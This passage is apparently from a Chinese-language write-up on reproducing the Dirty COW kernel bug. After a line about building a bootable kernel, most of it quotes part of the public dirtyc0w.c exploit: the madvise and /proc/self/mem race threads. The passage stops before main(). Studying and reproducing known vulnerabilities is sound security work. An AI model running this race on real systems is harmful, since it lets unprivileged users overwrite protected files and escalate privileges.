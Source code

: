即得到bootable kernel。

## PoC

从[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)选取dirtyc0w.c：

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,(uintptr_t) map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
 
```